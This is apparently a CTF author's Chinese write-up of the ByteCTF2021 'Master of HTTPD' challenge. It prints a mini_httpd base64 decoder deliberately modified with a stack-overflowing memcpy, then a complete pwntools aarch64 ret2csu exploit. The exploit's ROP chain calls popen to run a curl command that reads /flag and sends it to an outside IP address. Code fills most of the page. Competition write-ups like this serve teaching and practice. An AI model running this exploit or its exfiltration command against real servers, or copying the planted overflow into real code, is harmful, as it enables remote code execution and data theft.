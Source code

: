 # ByteCTF2021 `Master of HTTPD`

决赛签到题

## 这道题的诞生

- 对国内某些CTF出题人**打着httpd旗号出题却用stdin/stdout来和做交互**的行为深感疑惑，简单的HTTP报文Parser也能算httpd？是不是再ARM/MIPS交叉编译一下就能号称IoT赛题了？23333
- 很久以前挖到过一个Authorization字段解码触发的栈溢出，应该是去年的CVE-2020-14473，但考虑到原漏洞的lighttpd应该过于常见，或许有选手接触过，于是当即clone 相对冷门的（但也不是太冷门）mini_httpd 1.30，再给`b64_decode`加个小改动，塞个`memcpy`

```c=
/* Do base-64 decoding on a string.  Ignore any non-base64 bytes.
** Return the actual number of bytes generated.  The decoded size will
** be at most 3/4 the size of the encoded, and may be smaller if there
** are padding characters (blanks, newlines).
*/
int b64_decode( const char* str, unsigned char* space, int size )
    {
    const char* cp;
    int space_idx, phase;
    int d, prev_d = 0;
    unsigned char c;
    space_idx = 0;
    phase = 0;
    for ( cp = str; *cp != '\0'; ++cp )
        {
        d = b64_decode_table[(int) ((unsigned char) *cp)];
        if ( d != -1 )
            {
            switch ( phase )
                {
                case 0:
                ++phase;
                break;
                case 1:
                c = ( ( prev_d << 2 ) | ( ( d & 0x30 ) >> 4 ) );
                if ( space_idx < size )
                    space[space_idx++] = c;
                ++phase;
                break;
                case 2:
                c = ( ( ( prev_d & 0xf ) << 4 ) | ( ( d & 0x3c ) >> 2 ) );
                if ( space_idx < size )
                    space[space_idx++] = c;
                ++phase;
                break;
                case 3:
                c = ( ( ( prev_d & 0x03 ) << 6 ) | d );
                if ( space_idx < size )
                    space[space_idx++] = c;
                phase = 0;
                break;
                }
            prev_d = d;
            }
        }
    log_decoded_msg(space, ((size*3)/4)+1);
    /*memcpy(decoded_str, space, strlen((char*)space));
    puts(decoded_str);*/
    return space_idx;
    }

void log_decoded_msg(char * msg, int size){
        char decoded_str[0x100];
        memcpy(decoded_str, msg, size);
        puts(decoded_str);
        return;
}
```

## 这道题的利用

- 触发`b64_decode`需要访问带有`.htpasswd`的目录，需要选手扫到admin目录触发登陆校验
- Aarch64的栈溢出可以直接套用ret2csu模板

```python=
from sys import argv
from pwn import *
from base64 import b64encode
context.arch = "aarch64"


class Attack(object):

    def __init__(self, ip, port):
        self.ip = ip
        self.port = port
        self.conn = None
        self.base = {}

    def connectTarget(self):
        return remote(self.ip, self.port)

    def pb64(self, n, base=""):
        if base in self.base.keys():
            return p64(n + self.base[base])
        else:
            return p64(n)

    def generatePayload(self):
        payload = b''
        payload += b'A'*0x100
        payload += self.pb64(0x41df00)    # accessible memory
        payload += self.pb64(0x407d98)    # CSU Gadget 0
        payload += self.pb64(0x000000)*3  # X29
        payload += self.pb64(0x407d78)    # X30 -> CSU Gadget 2
        payload += self.pb64(0x000000)    # X19
        payload += self.pb64(0x000000)    # X20
        # payload += self.pb64(0x41c118)    # X21 => GOT[popen]
        payload += self.pb64(0x4234fc)    # ptr to `bl popen`
        payload += self.pb64(0x4234c0)    # X22 => X0 "/usr/bin/curl http://120.79.211.91:9997 -H \"Referer: `cat /flag`\""
        payload += self.pb64(0x40a900)    # X23 => X1 "r"
        payload += self.pb64(0x000000)    # X24 => X2 0
        return b64encode(payload)
    
    def generateMessage(self):
        message = b""
        message += b"GET /admin/flag.html HTTP/1.1\r\n"
        message += b"Host: 23333\r\n"
        message += b"User-Agent: C0ss4ck\r\n"
        message += b"Accept: */*\r\n"
        message += "Authorization: Basic {}\r\n".format(self.generatePayload().decode()).encode()
        message += b"   curl http://120.79.211.91:9997 -H \"Referer: `cat /flag`\"\r\n"
        message += b"\r\n"
        message += self.pb64(0x4062c8)
        print(message.decode('latin-1'))
        return message

    def trigger(self):
        self.conn = self.connectTarget()
        self.conn.send(self.generateMessage())
        self.conn.interactive()


a = Attack(argv[1], int(argv[2]))
a.trigger()

```
其实本来打算开PIE，这样构造ROP会相对麻烦。虽然mini_httpd的daemon可以保持基地址不变，但是ret2csu中只有W0而无X0，导致ROP最终调用函数的首参数不能为字符串地址。有兴趣的同学可以试试开启PIE下的漏洞利用。

## 一则广告（不是）

华为云租一台aarch64 ubuntu，gdb直接调试，非常方便。如果gdb各种bug打印不了回显，那就gdbserver转发到正常的amd64机器上调试

## 非预期

选手可以传`\x00`，对payload构造的要求大大降低。当我看到一血队伍打那么老长的payload，我就意识到大事不妙了Orz，满屏`\x00`

